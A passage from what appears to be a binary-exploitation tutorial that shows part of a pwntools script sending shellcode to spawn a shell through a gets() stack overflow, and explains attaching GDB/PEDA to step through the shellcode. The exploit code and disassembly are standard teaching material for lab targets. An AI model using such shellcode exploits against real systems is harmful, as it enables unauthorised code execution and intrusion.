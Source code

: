 ```python
shellcode = asm(shellcraft.sh())
payload += shellcode

# Attach to process
gdb.attach(p)

# Wait for breakpoints, commands etc.
raw_input("Send payload?")

# Send payload
p.sendline(payload)

# Enjoy shell :-)
p.interactive()
```

Notice the `gdb.attach(p)` and raw_input lines. The former will open a new terminal window with GDB already attached. All of your GDB configurations will be used, so this works with PEDA as well. Let's set a breakpoint at the ret instruction from the main function:
```gdb
gdb-peda$ pdis main
Dump of assembler code for function main:
   0x08048440 <+0>:	push   ebp
   0x08048441 <+1>:	mov    ebp,esp
   0x08048443 <+3>:	sub    esp,0x40
   0x08048446 <+6>:	lea    ebx,[ebp-0x40]
   0x08048449 <+9>:	push   ebx
   0x0804844a <+10>:	push   0x804a020
   0x0804844f <+15>:	call   0x8048300 <printf@plt>
   0x08048454 <+20>:	push   ebx
   0x08048455 <+21>:	call   0x8048310 <gets@plt>
   0x0804845a <+26>:	add    esp,0x4
   0x0804845d <+29>:	leave
   0x0804845e <+30>:	ret
   0x0804845f <+31>:	nop
End of assembler dump.
gdb-peda$ b *0x0804845e
Breakpoint 1 at 0x804845e
gdb-peda$ c
Continuing.
```

The continue command will return control to the terminal in which we're running the pwntools script. This is where the raw_input comes in handy, because it will wait for you to say “go” before proceeding further. Now if you hit `<Enter>` at the Send payload? prompt, you will notice that GDB has reached the breakpoint you've previously set.

You can now single-step each instruction of the shellcode inside GDB to see that everything is working properly. Once you reach int `0x80`, you can continue again (or close GDB altogether) and interact with the newly spawned shell in the pwntools session.
